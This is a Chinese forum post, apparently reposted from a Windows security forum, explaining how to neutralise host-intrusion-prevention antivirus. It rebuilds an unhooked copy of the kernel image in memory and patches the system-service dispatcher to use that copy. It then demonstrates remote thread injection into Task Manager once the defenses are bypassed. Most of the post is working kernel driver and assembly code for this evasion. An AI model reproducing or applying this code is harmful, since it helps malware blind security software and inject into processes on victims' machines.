


# 给主防来个釜底抽薪：）

> 原文：[`www.pediy.com/kssd/pediy11/113484.html`](https://www.pediy.com/kssd/pediy11/113484.html)

偶刚踏进门槛，水平有限，大家凑合着看吧 00！  
目前偶对主防的认识很肤浅，她的具体工作原理，偶不清楚。只知道她有一套信息采集系统（SSDT/SHADOW HOOK ,IAT HOOK, EAT HOOK, INLINE HOOK, NotifyRoutine,系统消息钩子），并巧妙利用堆栈回溯来获取更多信息。她应该还有一套自己独特的算法吧，通过它来根据收集到的信息判断当前操作是否是威胁。  
  
基于这点认识，偶想能不能不管她那什么专家系统，只要干掉她的信息采集系统，就可以让她变成一个盲人而彻底失去防卫能力。为了得到控制权，她在内核映像上安插了若干个 inlinehook 控制点  
  
。。。。。。  
ntkrnlpa.exe!ZwLoadDriver + 3D              
ntkrnlpa.exe!NtAllocateVirtualMemory + C54   
ntkrnlpa.exe!NtCreateSection + 158          
ntkrnlpa.exe!MmResetDriverPaging + 1340      
ntkrnlpa.exe!NtMapViewOfSection + 2B9        
ntkrnlpa.exe!ZwUnmapViewOfSection + 50      
ntkrnlpa.exe!ZwWriteVirtualMemory + AD      
ntkrnlpa.exe!ZwProtectVirtualMemory + FA    
ntkrnlpa.exe!NtSetSecurityObject + 4A        
。。。。  
  
一个一个去清除这些控制点是项艰巨的任务。如果她有自我检验的能力，刚清除又会她被修改回去，则更加难以对付。而且还要考虑 inlinehook 的多核同步问题。总之，这条路不好走。  
  
现在换一个思路，可不可以这样：利用磁盘上的原始内核文件，在内核空间建立一个内核映像的副本，再巧妙的把系统执行路径转移到副本上－－偶的乾坤大挪移 00！。而原始的内核文件是没有这些 inlinehook 控制点，因此这样做相当于把这些控制点架空，当然也把建立在 inlinehook 之上的主防也架空了。（釜底抽薪，这个成语用在这里，应该不为过吧）。现在就只要做两件事：  
  
1）在内核空间建立内核映像副本  
  
。。。。  
  
kImageBase = ExAllocatePoolWithTag (NonPagedPool, imageSize, 0x123456);  
if (NULL == kImageBase)  
{  
  KdPrint (("Out of Memory 00!\\n"));  
  return STATUS\_UNSUCCESSFUL;  
}  
  
RtlCopyMemory (kImageBase, kDiskBase, ntHeader->OptionalHeader.SizeOfHeaders);  
ExFreePoolWithTag (kDiskBase,0x123456);  
  
for (i = 0; i < sectionNumbers; i++)  
{  
  RtlCopyMemory ((PUCHAR)kImageBase + secHeader->VirtualAddress,   
    (PUCHAR)kDiskBase + secHeader->PointerToRawData, secHeader->SizeOfRawData);  
  secHeader++;  
}  
  
RelocDir = (PIMAGE\_BASE\_RELOCATION)((ULONG)kImageBase + ntHeader->OptionalHeader.DataDirectory\[5\].VirtualAddress);  
if (RelocDir != NULL)  
{  
  while (RelocDir->VirtualAddress != 0 || RelocDir->SizeOfBlock != 0)  
  {  
    FixAddrBase = RelocDir->VirtualAddress + (ULONG)kImageBase;  
    RelocSize = (RelocDir->SizeOfBlock - 8)/2;  
    for ( i = 0; i < RelocSize; i++)  
    {  
    Temp = \*(PUSHORT)((ULONG)RelocDir + sizeof (IMAGE\_BASE\_RELOCATION) + i \* 2);  
    if ( (Temp & 0xF000) == 0x3000)  
    {  
      Temp &= 0x0FFF;  
      FixAddr = FixAddrBase + (ULONG)Temp;  
      \*(PULONG)FixAddr = \*(PULONG)FixAddr + (ULONG)KernelBase - (ULONG)ntHeader->OptionalHeader.ImageBase;  
    }  
    }  
    RelocDir = (ULONG)RelocDir + RelocDir->SizeOfBlock;  
  }  
}  
  
。。。。。  
  
2）将执行路径转移至副本  
  
。。。。  
  
\*(PUSHORT)HookPointer = 0x3f83;  
\*(HookPointer + 2) = 0x0;  
\*(PUSHORT)(HookPointer + 3) = 0xd74;  
\*(PUSHORT)(HookPointer + 5) = 0xff81;  
\*(PULONG)(HookPointer + 7) = KeServiceDescriptorTable;  
\*(PUSHORT)(HookPointer + 11) = 0x575;  
\*(HookPointer + 13) = 0xbf;  
\*(PULONG)(HookPointer + 14) = ImageTable;  
RtlCopyMemory(HookPointer + 18, (char \*)((ULONG)KeSystemService + ChangePointer + 1), 7);  
\*(HookPointer + 25) = 0xe9;  
\*(PLONG)(HookPointer + 26) = (ULONG)KeSystemService + (ULONG)ChangePointer + 8 - (ULONG)HookPointer - 30 ;  
  
  
  
\*(PUSHORT)(&JmpCode) = 0xe900;  
\*(PLONG)((ULONG)&JmpCode + 2) = HookPointer - ((ULONG)KeSystemService + ChangePointer + 1 + 5);  
\*(PUSHORT)((ULONG)&JmpCode + 6) = 0xFA8B;  
//不支持多核  
\_asm{  
  cli  
  mov eax,cr0  
  and eax,not 10000h  
  mov cr0,eax  
      }  
\*(PULONGLONG)((ULONG)KeSystemService + ChangePointer) = JmpCode;  
\_asm{   
  mov eax,cr0  
  or  eax,10000h  
  mov cr0,eax  
  sti  
      }  
  
。。。。  
  
利用驱动完成这两步其实还是比较容易，高手一眼就能看出来。除了用到系统函数 ZwReadFile 之外，不需要用其他系统函数，这些主防一般是不会对文件读操作进行控制的。这样就可以防止在做这两件事时被主防拦截。如果有变态的主防控制 ReadFile，那么，只得采用更底层的方法来读去内核文件。所剩下的唯一一个受制点：主防她控制着驱动的加载 00！她死活不让我加载，那我也没办法 00！偶电脑上的这款主防，幸好她放开了这个控制。偶就试试她，看看这套思路能不能实现。  
  
拿论坛上某位兄台的注入代码来测试，关键代码如下，300 是任务管理器的 PID  
  
mov dwProcessID,300  
invoke OpenProcess,PROCESS\_CREATE\_THREAD or PROCESS\_VM\_OPERATION or PROCESS\_VM\_WRITE,FALSE,dwProcessID  
mov hProcess,eax    
invoke VirtualAllocEx,hProcess,0,offset lcl - offset \_lpMessageBox,MEM\_COMMIT,PAGE\_EXECUTE\_READWRITE  
mov lpRemoteCode,eax  
invoke WriteProcessMemory,hProcess,lpRemoteCode,offset \_lpMessageBox,offset lcl - offset \_lpMessageBox,0  
invoke WriteProcessMemory,hProcess,lpRemoteCode,offset lpMessageBox,4,0  
mov eax,lpRemoteCode  
add eax,offset RemoteThread - offset \_lpMessageBox  
Invoke CreateRemoteThread,hProcess,0,0,eax,0,0,0  
  
具体效果见顶图，若是能成功加载，从原理上来说应该是可以让任何主防当摆设！！  
未运行偶的驱动前，毫无疑问会被拦截  
  
架空之后，注入成功  
